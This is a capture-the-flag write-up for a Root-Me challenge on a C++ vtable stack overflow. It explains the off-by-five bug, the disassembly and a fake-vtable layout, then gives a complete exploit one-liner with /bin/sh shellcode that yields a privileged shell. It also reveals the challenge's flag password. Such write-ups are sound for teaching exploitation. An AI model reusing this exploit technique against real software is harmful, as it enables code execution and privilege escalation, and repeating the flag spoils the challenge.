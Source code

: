# ELF x86 - Stack buffer overflow - C++ vtables
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-C-vtables
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         Yes 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge20.root-me.org
Protocol	SSH
Port	        2224
SSH access 	ssh -p 2224 app-systeme-ch20@challenge02.root-me.org    
Username	app-systeme-ch20
Password	app-systeme-ch20
```

The vulnerable code is at the function _GetInput_ in _MyStringFormatter_ class:
```c++
#define SIZE (80)
[...snip...]
void GetInput(int padding )  {
  memset(str ,' ' , SIZE  ); 
  fgets(str+padding,SIZE,stdin); 
}
```
The padding can be 1-5 and the user can write up to 80 bytes. The buffer is 80 bytes long, so it's possible to overwrite up to 5 bytes after the buffer ends.<br>
Let's try to do so, and check what did we changed:
```gdb
(gdb) run < <(python -c "print '5\n1\n' + 'A'*75 + 'DDDD'")
Starting program: /challenge/app-systeme/ch20/ch20 < <(python -c "print '5\n1\n' + 'A'*75 + 'DDDD'")
Padding : 1-5


	Convert in : 
	  1: uppercase  
	  2: lowercase  
String to convert: 

Program received signal SIGSEGV, Segmentation fault.
0x08048a0e in MyStringFormatter::display() const ()
```
In fact, the _DDDD_ overwrites the MyStringFormatter object's vtable entry of the _MyStringFormatter::display()_ function. 
So because the SSP is on (so we cannot overwrite the _eip_), and because the _MyStringFormatter::display()_ function is called at the end of the program, we can overwrite its vtable entry and control the _eip_.<br><br>

Here is the _MyStringFormatter::display()_ call:
```asm
   0x08048a02 <+0>:	push   %ebp
   0x08048a03 <+1>:	mov    %esp,%ebp
   0x08048a05 <+3>:	sub    $0x18,%esp
   0x08048a08 <+6>:	mov    0x8(%ebp),%eax
   0x08048a0b <+9>:	mov    0x50(%eax),%eax
   0x08048a0e <+12>:	mov    (%eax),%eax
   0x08048a10 <+14>:	add    $0x8,%eax
   0x08048a13 <+17>:	mov    (%eax),%ecx
   0x08048a15 <+19>:	mov    0x8(%ebp),%edx
   0x08048a18 <+22>:	mov    0x8(%ebp),%eax
   0x08048a1b <+25>:	mov    0x50(%eax),%eax
   0x08048a1e <+28>:	mov    %edx,0x4(%esp)
   0x08048a22 <+32>:	mov    %eax,(%esp)
   0x08048a25 <+35>:	call   *%ecx
   0x08048a27 <+37>:	leave  
   0x08048a28 <+38>:	ret 
```
To sum up:
1. The object (this or self) is moved to _eax_.
2. The vtable of the object is found (at offset 0x50) and is moved to _eax_.
3. The object's _display_ function is found (at instruction +14).
4. The function address is moved to _ecx_ and at the end of the function, there is a call to the address stored in _ecx_ (instruction +35).

<br>
The ASLR and NX are unset. So, it's possible to use the regular shellcode in the stack concept.<br>

1. We'll first jump to the start of the buffer which we can control (0xbffffb45).
2. Then at the start of the buffer we'll put an address to a fake vtable (which will contain an address of a point in the buffer).
3. The fake vtable will contain 1 address to our shellcode.

So it will look like the following diagram:
```
                                  +-----------------+  
        0xbffffb45                |   0xbffffb41    |  
                                  +-----------------+  
        0xbffffb49                |   0xbffffb4d    |  
                                  +-----------------+  
                                  |                 |  
        0xbffffb4d                |    SHELLCODE    |  
                                  |                 |  
                                  +-----------------+  
                                  |       JUNK      |  
                                  +-----------------+  
                                  |   0xbffffb45    |  
                                  +-----------------+
```

Let's try it out:
```sh
app-systeme-ch20@challenge02:~$ cat <(python -c "print '5\n1\n' + '\x41\xfb\xff\xbf' + '\x4d\xfb\xff\xbf' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A'*39 + '\x45\xfb\xff\xbf'") - | ./ch20 
Padding : 1-5


	Convert in : 
	  1: uppercase  
	  2: lowercase  
String to convert: 
id
uid=1120(app-systeme-ch20) gid=1120(app-systeme-ch20) euid=1220(app-systeme-ch20-cracked) groups=1220(app-systeme-ch20-cracked),100(users),1120(app-systeme-ch20)
cat .passwd
!!FunW1ThVT4bleS!?
```

